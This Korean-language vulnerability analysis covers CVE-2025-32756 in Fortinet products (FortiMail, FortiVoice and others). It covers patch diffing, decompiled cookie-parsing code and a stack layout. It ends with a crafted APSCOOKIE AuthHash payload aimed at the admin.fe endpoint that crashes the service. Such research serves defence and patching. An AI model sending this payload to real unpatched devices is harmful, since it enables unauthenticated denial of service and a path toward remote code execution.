







## URL

- https://www.fortiguard.com/psirt/FG-IR-24-123
- https://fortiguard.fortinet.com/psirt/FG-IR-25-254

## Target

- FortiCamera 2.1 ≤ v2.1.3
- FortiMail 7.6 ≤ v7.6.2
- FortiNDR 7.6 = v7.6.0
- FortiRecorder 7.2 ≤ v7.2.3
- FortiVoice 7.2 = v7.2.0

## Explain

### CVE-2025-32756

2025년 5월 13일, FortiGuard Labs는 Fortinet의 여러 제품에 영향을 주는 **CVE-2025-32756**를 발표했습니다.

`FortiCamera, FortiMail, FortiNDR, FortiRecorder, FortiVoice` 제품이 해당됩니다.

이 취약점은 관리자 API에서 발생하는 스택 버퍼 오버플로우로, 인증되지 않은 원격 코드 실행으로 이어질 수 있습니다.

### Root Cause

리버싱을 위해 FortiMail의 패치 전후 버전을 비교 분석하기로 했습니다.

발표문에 나열된 침해 지표(IOCs)는 분석을 어디서 시작할지에 대한 단서를 제공합니다.




[https://fortiguard.fortinet.com/psirt/FG-IR-25-254](https://fortiguard.fortinet.com/psirt/FG-IR-25-254)

해당 로그를 보면 몇 가지 중요한 점을 알 수 있습니다. admin.fe CGI 바이너리를 실행하려고 시도할 때, 웹 서버가 mod_fcgid를 사용하기 때문에 만약 실패하더라도 서버 전체가 멈추거나 애플리케이션이 차단될 위험은 크지 않습니다.

웹 서버 설정 파일 (`httpd.conf`)에서  `ScriptAlias /module/ "/migadmin/www/fcgi/"` 진입점을 찾았습니다. 

간단한 `curl` 요청을 통해 `admin.fe` 엔드포인트에 접근 가능한 것을 확인했습니다.

```bash
# curl -k -L -v https://REDACTED/module/admin.fe

< HTTP/1.1 200 OK
< Date: Tue, 20 May 2025 23:17:44 GMT
< Cache-Control: no-cache
< Strict-Transport-Security: max-age=31536000; includeSubDomains
< Set-Cookie: **APSCOOKIE_ffbe3e4d0e3350075e9c91f574e799cc**=; Expires=Fri, 01-Jan-1971 01:00:00 GMT;; Path=/; Version=1; Secure; HttpOnly
< Set-Cookie: ParamStr=; Expires=Fri, 01-Jan-1971 01:00:00 GMT;; Path=/; Version=1; Secure; HttpOnly
< Set-Cookie: mTime=; Expires=Fri, 01-Jan-1971 01:00:00 GMT;; Path=/; Version=1; Secure; HttpOnly
< Set-Cookie: logLevel=; Expires=Fri, 01-Jan-1971 01:00:00 GMT;; Path=/; Version=1; Secure; HttpOnly
< Set-Cookie: logType=; Expires=Fri, 01-Jan-1971 01:00:00 GMT;; Path=/; Version=1; Secure; HttpOnly
< Set-Cookie: logStartline=; Expires=Fri, 01-Jan-1971 01:00:00 GMT;; Path=/; Version=1; Secure; HttpOnly
< Set-Cookie: logDomain=; Expires=Fri, 01-Jan-1971 01:00:00 GMT;; Path=/; Version=1; Secure; HttpOnly
< Set-Cookie: totalLineNumber=; Expires=Fri, 01-Jan-1971 01:00:00 GMT;; Path=/; Version=1; Secure; HttpOnly
< Set-Cookie: SearchResultFile=; Expires=Fri, 01-Jan-1971 01:00:00 GMT;; Path=/; Version=1; Secure; HttpOnly
< Vary: Accept-Encoding
< X-XSS-Protection: 1; mode=block
< X-Frame-Options: SAMEORIGIN
< X-Content-Type-Options: nosniff
< Content-Security-Policy: script-src 'self'; object-src 'none'; frame-ancestors 'self' https://*.fortimailcloud.com/ https://fortimail.forticloud.com/
< Transfer-Encoding: chunked
< Content-Type: text/plain
<

{"errorType": 7,"errorMsg": "Failed: Access denied","reqAction": 0,"totalRemoteCount": 0,"collection": "[]"}
```

이 응답을 통해  `admin.fe`에 접근할 수는 있지만, **인증되지 않았기 때문에 접근이 거부**되었음을 알 수 있습니다.

이후 패치된 버전과 패치되지 않은 버전의 `admin.fe` 바이너리를 비교해본 결과, 두 파일은 동일했습니다. 취약점이 공유 라이브러리에 있을 가능성이 높다고 볼 수 있습니다.



바이너리에 Boost 라이브러리가 있는 것으로 보아 C++로 작성된 것으로 확인됩니다. 



`FUN_00403b80` 함수를 자세히 들여다보던 중, 문자열 `APSCOOKIE`를 발견했습니다.

앞서 실행한 `curl` 테스트를 참고하면, 응답에서 반환된 쿠키 중 하나가 바로 이 `APSCOOKIE` 값이었습니다.



개발자도구와 Burf Suite 등을 통해 요청을 확인해보면 , `APSCOOKIE` 값을 포함한 `admin.fe` 요청이 간헐적으로 발생하는 것을 볼 수 있으며, 이 값은 세션 관리를 위해 사용되고 있었습니다. 

이 쿠키 값을 디코딩하면 다음과 같은 데이터를 얻을 수 있습니다:

```bash
Era=0&Payload=qCStu1vT3v+Y++5pCCs9M/CxxddCRrC8SHg+9cfRCA42GU7Cf+8p3iBFSl/4vHteSGePZgk7KGMb8kzRR5c2boDUfiiD65jkByiD3DuRCj1NJR7ESpZQIZlOffSxykRbCTp5l3InoU+q6psG+ve+IRDk9za5K0No9T5RNxCwZxM=&AuthHash=kz4cHPsgudYxy4PPp123FUto=&
```

`APSCOOKIE`에는 다음과 같은 URL 인코딩된 필드가 포함되어 있습니다:

- Era
- Payload
- AuthHash

이 값들을 `grep`을 통해 코드 추적에 활용해보았습니다. 

```bash
$ grep -rl "Era" ./762 | xargs grep -rl "Payload" | xargs grep -rl "AuthHash"
rootfs/lib/libhttputil.so

$ diff 762/rootfs/lib/libhttputil.so 763/rootfs/lib/libhttputil.so
Binary files 762/rootfs/lib/libhttputil.so and 763/rootfs/lib/libhttputil.so differ
```

이 값들을 포함하고, 패치 전후 버전에서 차이가 있는 파일이 하나뿐이라는 점에서 문제의 원인이 되는 파일을 찾은 것으로 보입니다.

---

### cookieval_unwrap() 함수 분석

Ghidra에 두 버전을 모두 로드해보니, 이 문자열들이 모두 `cookieval_unwrap()` 함수 내에서 참조되고 있음을 확인할 수 있었습니다.

1. **패치 전후 코드 분석**

`cookieval_unwrap()` 함수를 훑어보면, 이 함수는 `APSCOOKIE`의 각 필드를 base64로 디코딩하고, 이를 입력 버퍼에 다시 쓰는 역할을 합니다.

`Era`는 한 자리 숫자로 예상되므로, `Payload`와 `AuthHash`에 집중하기로 했습니다. 패치된 버전과 패치되지 않은 버전의 디컴파일 결과를 살펴보며, 각각의 값이 어떻게 처리되는지 추적했습니다.

**취약한 버전**

```
size_t input_size;
size_t __size;
uchar *AuthHash;
uchar *Payload;
long output_buffer [2];
out_00 = (uchar *)malloc(__size);

iVar2 = __isoc99_sscanf(param_1,"Era=%1d&Payload=%m[^&]&AuthHash=%m[^&]&",&Era,&Payload, &AuthHash);

input_size = strlen((char *)AuthHash);
__size = strlen((char *)Payload);

iVar3 = EVP_DecodeUpdate(ctx,(uchar *)output_buffer,&output_size,AuthHash,(int)input_size);

iVar2 = EVP_DecodeUpdate(ctx,out_00,&local_94,Payload,iVar2);
```

**패치된 버전**

```
size_t input_size;
size_t __size;
uchar *AuthHash;
uchar *Payload;
long output_buffer [2];
out_00 = (uchar *)malloc(__size);

iVar2 = __isoc99_sscanf(param_1,"Era=%1d&Payload=%m[^&]&AuthHash=%m[^&]&",&Era,&Payload, &AuthHash);

input_size = strlen((char *)AuthHash);
__size = strlen((char *)Payload);

input_size = strlen((char *)AuthHash);
if (input_size < 0x1e) {

iVar3 = EVP_DecodeUpdate(ctx,(uchar *)output_buffer,&output_size,AuthHash,(int)input_size);

iVar2 = EVP_DecodeUpdate(ctx,out_00,&local_94,Payload,iVar2);
```

패치된 버전과 취약한 버전의 차이는, 사용자로부터 제공된 `AuthHash` 값의 길이에 대한 검사가 추가되었느냐 여부였습니다.

원래(취약한) 버전에서는 `AuthHash`가 디코딩되어 16바이트 크기의 출력 버퍼에 쓰여지고 있습니다.

패치된 버전에서는 크기 검사를 통해 사용자가 `AuthHash` 필드에 보낼 수 있는 데이터의 양을 제한하고 있습니다.

`EVP_DecodeUpdate()` 함수 호출에서 디코딩된 `AuthHash` 값을 버퍼 크기를 넘겨서 쓰기 때문에 스택 오버플로우 취약점이 발생합니다.

1. **스택 분석**

출력 버퍼에서 시작되는 스택 할당 상태를 살펴보았습니다.

```
RSP+0x50 : local_78 (16 bytes)        <- 오버플로우 시작 지점
RSP+0x60 : local_68 (4 bytes)         <- 덮어씀
RSP+0x70 : local_58 (16 bytes)        <- 덮어씀
RSP+0x80 : local_48 (16 bytes)        <- 덮어씀
RSP+0x90 : saved RBX                  <- 덮어씀  ---v
RSP+0x98 : saved RBP                  <- 덮어씀
RSP+0xA0 : saved R12                  <- 덮어씀
RSP+0xA8 : saved R13                  <- 덮어씀
RSP+0xB0 : saved R14                  <- 덮어씀
RSP+0xB8 : saved R15                  <- 덮어씀  ---^
RSP+0xC0 : return address (RIP)       <- 덮어씀
```

실행이 계속되는 동안, 이러한 스택 값들은 이후 `memcpy()` 호출 전까지 그대로 유지됩니다.

`memcpy()` 호출은 우리가 이미 제어할 수 있는 값들을 사용하게 되며, 이는 익스플로잇 작성에 유용할 수 있습니다만, 함수 에필로그에서 RIP를 이미 제어할 수 있기 때문에, 깊게 파고들 필요는 없습니다.

---

### Exploit

먼저 `AuthHash`는 유효한 base64 형식이어야 하므로, NULL 문자들을 base64로 인코딩해 전송해보았습니다.

```
AuthHash%3DAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%3D%3D
```





몇 번의 시행착오 끝에 위와 같이 계산할 수 있었습니다.



크래시가 발생한 것을 확인했습니다. 
